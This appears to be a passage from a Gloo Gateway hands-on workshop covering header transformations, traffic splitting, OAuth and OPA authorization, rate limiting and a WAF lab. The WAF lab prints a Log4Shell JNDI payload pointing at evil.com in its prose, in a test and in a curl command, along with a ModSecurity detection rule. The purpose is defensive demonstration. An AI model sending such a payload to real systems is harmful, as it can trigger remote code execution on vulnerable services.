timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Check you can now also access the status `/status/201` path:

```shell
curl -k https://httpbin.example.com/status/201 -w "%{http_code}"
```

Here is the expected output:

```,nocopy
201
```

You can use the following command to validate this request has been handled by the second httpbin application.

```bash
kubectl logs --context ${CLUSTER1} -n httpbin -l app=httpbin2 | grep curl | grep 201
```

You should get an output similar to:

```log,nocopy
time="2024-07-22T16:04:53.3189" status=201 method="GET" uri="/status/201" size_bytes=0 duration_ms=0.02 user_agent="curl/7.81.0" client_ip=10.101.0.13:52424
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking \'201\' status code', () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/status/201', retCode: 201 }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/delegation/tests/status-201.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Let's delete the latest `HTTPRoute` and apply the original ones:

```bash
kubectl delete --context ${CLUSTER1} -n httpbin httproute httpbin-status

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: gloo-system
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: https-httpbin
  hostnames:
    - "httpbin.example.com"
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: '*'
          namespace: httpbin
          group: gateway.networking.k8s.io
          kind: HTTPRoute
EOF

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking text \'headers\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', body: 'headers', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/delegation/tests/https.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->


## Lab 24 - Modify the requests and responses <a name="lab-24---modify-the-requests-and-responses-"></a>

The Kubernetes Gateway API provides different options to add/update/remove request and response headers.

Let's start with request headers.

Update the `HTTPRoute` resource to do the following:
- add a new header `Foo` with the value `bar`
- update the value of the header `User-Agent` to `custom`
- remove the `To-Remove` header

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
      filters:
        - type: RequestHeaderModifier
          requestHeaderModifier:
            add:
              - name: Foo
                value: bar
            set:
              - name: User-Agent
                value: custom
            remove:
              - To-Remove
EOF
```

Try to access the application (with the `To-Remove` request header added):

```shell
curl -k https://httpbin.example.com/get -H 'To-Remove: whatever'
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Foo": [
      "bar"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "custom"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "8595e525-4484-4aaa-8f56-97a96163c333"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:48727",
  "url": "https://httpbin.example.com/get"
}
```

The transformations have been applied as expected.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("request transformations applied", () => {
  it('Checking text \'bar\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', body: 'bar', match: true }));
  it('Checking text \'custom\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', body: 'custom', match: true }));
  it('Checking text \'To-Remove\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', body: 'To-Remove', match: false }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/transformations/tests/request-headers.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Another typical use case is to rewrite the hostname or the path before sending the request to the backend.

Update the `HTTPRoute` resource to do the following:
- rewrite the hostname to `httpbin1.com`
- rewrite the path to `/get`

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /publicget
      backendRefs:
        - name: httpbin1
          port: 8000
      filters:
        - type: URLRewrite
          urlRewrite:
            hostname: httpbin1.com
            path:
              type: ReplacePrefixMatch
              replacePrefixMatch: /get
EOF
```

Try to access the application:

```shell
curl -k https://httpbin.example.com/publicget
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin1.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Envoy-Original-Path": [
      "/publicget"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "1aee27e0-dfab-4b3a-869c-23e3e214440e"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:33021",
  "url": "https://httpbin1.com/get"
}
```

The transformations have been applied as expected.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("request rewrite applied", () => {
  it('Checking text \'httpbin1.com/get\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/publicget', body: 'httpbin1.com/get', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/transformations/tests/request-rewrite.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->


Let's now apply transformations to response headers.

Update the `HTTPRoute` resource to do the following:
- add a new header `Foo` with the value `bar`
- update the value of the header `To-Modify` to `newvalue`
- remove the `To-Remove` header

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
      filters:
        - type: ResponseHeaderModifier
          responseHeaderModifier:
            add:
              - name: Foo
                value: bar
            set:
              - name: To-Modify
                value: newvalue
            remove:
              - To-Remove
EOF
```

Try to access the application (with the `To-Modify` and `To-Remove` response headers added):

```shell
curl -k "https://httpbin.example.com/response-headers?to-remove=whatever&to-modify=oldvalue" -I
```

Here is the expected output:

```http,nocopy
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-origin: *
content-type: application/json; charset=utf-8
date: Thu, 20 Jun 2024 17:02:36 GMT
x-envoy-upstream-service-time: 1
server: envoy
x-envoy-decorator-operation: httpbin1.httpbin.svc.cluster.local:8000/*
to-modify: newvalue
foo: bar
```

The transformations have been applied as expected.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("response transformations applied", () => {
  it('Checking \'Foo\' and \'To-Modify\' headers', () => helpersHttp.checkHeaders({ host: `https://httpbin.example.com`, path: '/response-headers?to-remove=whatever&to-modify=oldvalue', expectedHeaders: [{'key': 'foo', 'value': 'bar'}, {'key': 'to-modify', 'value': 'newvalue'}]}));
  it('Checking text \'To-Remove\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/response-headers?to-remove=whatever&to-modify=oldvalue', body: 'To-Remove', match: false }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/transformations/tests/response-headers.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Let's apply the original `HTTPRoute` yaml:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

All these transformations are great, but there are many cases where more flexibility is required.

For example, you may want to create a new header from a value of another header.

Gloo Gateway provides some extensions to manipulate requests and responses in a more advanced way.

Let's extract the product name from the `User-Agent` header (getting rid of the product version and comments).

To do that we need to create a Gloo Gateway `RouteOption` object:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: httpbin
  options:
    stagedTransformations:
      regular:
        requestTransforms:
        - requestTransformation:
            transformationTemplate:
              extractors:
                client:
                  header: 'User-Agent'
                  regex: '^([^/\s]+).*'
                  subgroup: 1
              headers:
                x-client:
                  text: "{{ client }}"
EOF
```

Try to access the application:

```shell
curl -k https://httpbin.example.com/get
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Client": [
      "curl"
    ],
    "X-Envoy-Expected-Rq-Timeout-Ms": [
      "15000"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "49dd1010-9388-4d50-b4c7-298cec409f3d"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:48727",
  "url": "https://httpbin.example.com/get"
}
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("request transformation applied", () => {
  it('Checking text \'X-Client\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{key: 'User-agent', value: 'curl/8.5.0'}], body: 'X-Client', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/transformations/tests/x-client-request-header.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

As you can see, we've created a new header called `X-Client` by extracting some data from the `User-Agent` header using a regular expression.

And we've targetted the `HTTPRoute` using the `targetRefs` of the `RouteOption` object. With this approach, it applies to all its rules. 

Another nice capability of the Gloo Gateway transformation filter is the capability to add a response header from some information present in the request.

For example, we can add a `X-Request-Id` response header with the same value than the `X-Request-Id` request header. The user could use this information to report an issue he had with a specific request, for example.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  options:
    stagedTransformations:
      regular:
        responseTransforms:
        - responseTransformation:
            transformationTemplate:
              headers:
                x-request-id:
                  text: '{{ request_header("X-Request-Id") }}'
EOF
```

This time, we haven't used the `targetRefs` option. Instead, we're going to update the `HTTPRoute` object to target the `RouteOption` object. This way you can apply it to a single rule.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      filters:
        - type: ExtensionRef
          extensionRef:
            group: gateway.solo.io
            kind: RouteOption
            name: routeoption
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Try to access the application:

```shell
curl -k "https://httpbin.example.com/get" -I
```

Here is the expected output:

```http,nocopy
HTTP/2 200 
access-control-allow-credentials: true
access-control-allow-origin: *
date: Tue, 23 Jul 2024 13:13:53 GMT
x-envoy-upstream-service-time: 0
x-request-id: 67052060-3b22-4782-8078-1344b26a774a
server: envoy
```

You can see the `X-Request-Id` response header has been added correctly.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("response transformation applied", () => {
  it('Checking \'X-Request-Id\' header', () => helpersHttp.checkHeaders({ host: `https://httpbin.example.com`, path: '/get', expectedHeaders: [{'key': 'x-request-id', 'value': '*'}]}));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/transformations/tests/x-request-id-response-header.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Let's apply the original `HTTPRoute` yaml:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Let's delete the `RouteOption` object:
```bash
kubectl delete --context ${CLUSTER1} -n httpbin routeoption routeoption
```


## Lab 25 - Split traffic between 2 backend services <a name="lab-25---split-traffic-between-2-backend-services-"></a>

You can split traffic between different backends, with different weights.

It's useful to slowly introduce a new version.

Update the `HTTPRoute` resource to do the following:
- send 90% of the traffic to the `httpbin1` service
- send 10% of the traffic to the `httpbin2` service

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
          weight: 90
        - name: httpbin2
          port: 8000
          weight: 10
EOF
```

Try to access the application several times, using the `/hostname` endpoint which returns the hostname of the pod that handled the request:

```shell
curl -k https://httpbin.example.com/hostname
```

Most of the time, the request will be sent to `httpbin1`:

```json,nocopy
{
  "hostname": "httpbin1-7c4498d4c4-ksxdm"
}
```

But sometimes, it will be sent to `httpbin2`:

```json,nocopy
{
  "hostname": "httpbin2-789dfb64d6-trsxw"
}
```

The traffic has been split as expected.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("traffic split applied", () => {
  it('Checking text \'httpbin1\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/hostname', body: 'httpbin1', match: true }));
  it('Checking text \'httpbin2\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/hostname', body: 'httpbin2', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/traffic-split/tests/traffic-split.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->


## Lab 26 - Securing the access with OAuth <a name="lab-26---securing-the-access-with-oauth-"></a>

In this step, we're going to secure the access to the `httpbin` service using OAuth.

First, we need to create an `AuthConfig`, which is a CRD that contains authentication information. We've already got a secret named `oauth` that we can reference in this policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: enterprise.gloo.solo.io/v1
kind: AuthConfig
metadata:
  name: oauth
  namespace: httpbin
spec:
  configs:
    - oauth2:
        oidcAuthorizationCode:
          appUrl: "https://httpbin.example.com"
          callbackPath: /callback
          clientId: ${KEYCLOAK_CLIENT}
          clientSecretRef:
            name: oauth
            namespace: gloo-system
          issuerUrl: "${KEYCLOAK_URL}/realms/workshop/"
          logoutPath: /logout
          afterLogoutUrl: "https://httpbin.example.com/get"
          session:
            failOnFetchFailure: true
            redis:
              cookieName: keycloak-session
              options:
                host: redis:6379
          scopes:
          - email
          headers:
            idTokenHeader: jwt
          identityToken:
            claimsToHeaders:
              - claim: email
                header: X-Email
EOF
```


After that, you need to create a `RouteOption`, to reference the `AuthConfig`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  options:
    extauth:
      configRef:
        name: oauth
        namespace: httpbin
EOF
```

You can use this diagram to understand the order in which the different options are applied.



Finally, you need to update the `HTTPRoute` to use this `RouteOption`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      filters:
        - type: ExtensionRef
          extensionRef:
            group: gateway.solo.io
            kind: RouteOption
            name: routeoption
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

<!--bash
ATTEMPTS=1
timeout 60 bash -c 'while [[ "$(curl -m 2 --max-time 2 --insecure -s -o /dev/null -w ''%{http_code}'' https://httpbin.example.com/get)" != "302" ]]; do sleep 5; done'
export USER1_COOKIE=$(node tests/keycloak-token.js "https://httpbin.example.com/get" user1)
export USER2_COOKIE=$(node tests/keycloak-token.js "https://httpbin.example.com/get" user2)
ATTEMPTS=1
until ([ ! -z "$USER2_COOKIE" ] && [[ $USER2_COOKIE != *"dummy"* ]]) || [ $ATTEMPTS -gt 20 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 3
  export USER2_COOKIE=$(node tests/keycloak-token.js "https://httpbin.example.com/get" user2)
done
ATTEMPTS=1
until ([ ! -z "$USER1_COOKIE" ] && [[ $USER1_COOKIE != *"dummy"* ]]) || [ $ATTEMPTS -gt 20 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 3
  export USER1_COOKIE=$(node tests/keycloak-token.js "https://httpbin.example.com/get" user1)
done
echo "User1 token: $USER1_COOKIE"
echo "User2 token: $USER2_COOKIE"
-->

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Authentication is working properly", function () {
  const cookieString = process.env.USER1_COOKIE;

  it("The httpbin page isn't accessible without authenticating", () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/get', retCode: 302 }));

  it("The httpbin page is accessible after authenticating", () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], retCode: 200 }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/extauth-oauth/tests/authentication.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Claim to header is working properly", function() {
  const cookieString = process.env.USER2_COOKIE;
  it('The new header has been added', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], body: 'user2@solo.io' }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/extauth-oauth/tests/header-added.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

If you refresh the web browser, you will be redirected to the authentication page.

If you use the username `user1` and the password `password` you should be redirected back to the `httpbin` application.

Notice that we are also extracting information from the `email` claim, and putting it into a new header. This can be used for different things during our authz/authn flow, but most importantly we don't need any jwt-decoding library in the application anymore!

You can also perform authorization using OPA.

First, you need to create a `ConfigMap` with the policy written in rego:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: allow-solo-email-users
  namespace: httpbin
data:
  policy.rego: |-
    package test

    default allow = false

    allow {
        [header, payload, signature] = io.jwt.decode(input.state.jwt)
        endswith(payload["email"], "@solo.io")
    }
EOF
```

Then, you need to update the `AuthConfig` object to add the authorization step:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: enterprise.gloo.solo.io/v1
kind: AuthConfig
metadata:
  name: oauth
  namespace: httpbin
spec:
  configs:
    - oauth2:
        oidcAuthorizationCode:
          appUrl: "https://httpbin.example.com"
          callbackPath: /callback
          clientId: ${KEYCLOAK_CLIENT}
          clientSecretRef:
            name: oauth
            namespace: gloo-system
          issuerUrl: "${KEYCLOAK_URL}/realms/workshop/"
          logoutPath: /logout
          afterLogoutUrl: "https://httpbin.example.com/get"
          session:
            failOnFetchFailure: true
            redis:
              cookieName: keycloak-session
              options:
                host: redis:6379
          scopes:
          - email
          headers:
            idTokenHeader: jwt
          identityToken:
            claimsToHeaders:
              - claim: email
                header: X-Email
    - opaAuth:
        modules:
        - name: allow-solo-email-users
          namespace: httpbin
        query: "data.test.allow == true"
EOF
```

Refresh the web page. `user1` shouldn't be allowed to access it anymore since the user's email ends with `@example.com`.
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Authentication is working properly", function () {

  const cookieString_user1 = process.env.USER1_COOKIE;
  const cookieString_user2 = process.env.USER2_COOKIE;

  it("The httpbin page isn't accessible with user1", () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString_user1 }], retCode: "keycloak-session=dummy" == cookieString_user1 ? 302 : 403 }));
  it("The httpbin page is accessible with user2", () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString_user2 }], retCode: 200 }));

});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/extauth-oauth/tests/authorization.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
If you open the browser in incognito and login using the username `user2` and the password `password`, you will now be able to access it since the user's email ends with `@solo.io`.


## Lab 27 - Use the transformation filter to manipulate headers <a name="lab-27---use-the-transformation-filter-to-manipulate-headers-"></a>


In this step, we're going to use a regular expression to extract a part of an existing header and to create a new one:

Let's update the `RouteOption` to extract the domain name from the email of the user.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  options:
    extauth:
      configRef:
        name: oauth
        namespace: httpbin
    stagedTransformations:
      regular:
        requestTransforms:
        - requestTransformation:
            transformationTemplate:
              extractors:
                organization:
                  header: 'X-Email'
                  regex: '.*@(.*)$'
                  subgroup: 1
              headers:
                x-organization:
                  text: "{{ organization }}"
EOF
```

If you refresh the web page, you should see a new `X-Organization` header added to the request with the value `solo.io`

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Transformation is working properly", function() {
  const cookieString = process.env.USER2_COOKIE;
  it('The new header has been added', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], body: 'X-Organization' }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/advanced-transformations/tests/header-added.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->


## Lab 28 - Apply rate limiting to the Gateway <a name="lab-28---apply-rate-limiting-to-the-gateway-"></a>

In this step, we're going to apply rate limiting to the Gateway to only allow 3 requests per minute for the users of the `solo.io` organization.

First, we need to create a `RateLimitConfig` object to define the limits:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: ratelimit.solo.io/v1alpha1
kind: RateLimitConfig
metadata:
  name: limit-users
  namespace: httpbin
spec:
  raw:
    setDescriptors:
      - simpleDescriptors:
          - key: organization
            value: solo.io
        rateLimit:
          requestsPerUnit: 3
          unit: MINUTE
    rateLimits:
    - setActions:
      - requestHeaders:
          descriptorKey: organization
          headerName: X-Organization
EOF
```

Finally, you need to update the `RouteOption` to use this `RateLimitConfig`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  options:
    extauth:
      configRef:
        name: oauth
        namespace: httpbin
    stagedTransformations:
      regular:
        requestTransforms:
        - requestTransformation:
            transformationTemplate:
              extractors:
                organization:
                  header: 'X-Email'
                  regex: '.*@(.*)$'
                  subgroup: 1
              headers:
                x-organization:
                  text: "{{ organization }}"
    rateLimitConfigs:
      refs:
      - name: limit-users
        namespace: httpbin
EOF
```

Refresh the web page multiple times.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Rate limiting is working properly", function() {
  const cookieString = process.env.USER2_COOKIE;
  it('The httpbin page should be rate limited', () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], retCode: 429 }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/ratelimiting/tests/rate-limited.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

You should get a `200` response code the first 3 times and a `429` response code after.

Let's apply the original `HTTPRoute` yaml:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Let's delete the `RouteOption` object:
```bash
kubectl delete --context ${CLUSTER1} -n httpbin routeoption routeoption
```


## Lab 29 - Use the Web Application Firewall filter <a name="lab-29---use-the-web-application-firewall-filter-"></a>

A web application firewall (WAF) protects web applications by monitoring, filtering, and blocking potentially harmful traffic and attacks that can overtake or exploit them.

Gloo Gateway includes the ability to enable the ModSecurity Web Application Firewall for any incoming and outgoing HTTP connections.

An example of how using Gloo Gateway we'd easily mitigate the recent Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)), which for many enterprises was a major ordeal that took weeks and months of updating all services.

The Log4Shell vulnerability impacted all Java applications that used the log4j library (common library used for logging) and that exposed an endpoint. You could exploit the vulnerability by simply making a request with a specific header. In the example below, we will show how to protect your services against the Log4Shell exploit.

Using the Web Application Firewall capabilities you can reject requests containing such headers.

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. That's what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

You need to create the following `RouteOption`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: waf
  namespace: gloo-system
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: httpbin
  options:
    waf:
      customInterventionMessage: 'Log4Shell malicious payload'
      ruleSets:
      - ruleStr: |
          SecRuleEngine On
          SecRequestBodyAccess On
          SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*
            "@rx \\\${jndi:(?:ldaps?|iiop|dns|rmi)://"
            "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

As you can see, this `RouteOption` targets the parent `HTTPRoute`. That way, the WAF rule is applied to all the traffic targetting the `httpbin` application.

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("WAF is working properly", function() {
  it('The request has been blocked', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{key: 'User-Agent', value: '${jndi:ldap://evil.com/x}'}], body: 'Log4Shell malicious payload' }));
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/waf/tests/waf.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Run the following command to simulate an attack:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" -k "https://httpbin.example.com/get" -i
```

The request should be rejected:

```http,nocopy
HTTP/2 403 
content-length: 27
content-type: text/plain
date: Tue, 05 Apr 2022 10:20:06 GMT
server: istio-envoy

Log4Shell malicious payload
```

Let's delete the `RouteOption` we've created:

```bash
kubectl delete --context ${CLUSTER1} -n gloo-system routeoption waf
```


## Lab 30 - Use the JWT filter to validate JWT and create headers from claims <a name="lab-30---use-the-jwt-filter-to-validate-jwt-and-create-headers-from-claims-"></a>

In this step, we're going to validate the JWT token and to create a new header from the `email` claim.

You can restrict a request's access based on the claims and scopes in a JWT. `Claims` are key-value pairs that provide identity details, such as the subject's user ID, the entity that issued the token, and expiration time. `Scopes` are strings that indicate the permissions granted to the token holder.

We need to create an `Upstream` representing Keycloak:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gloo.solo.io/v1
kind: Upstream
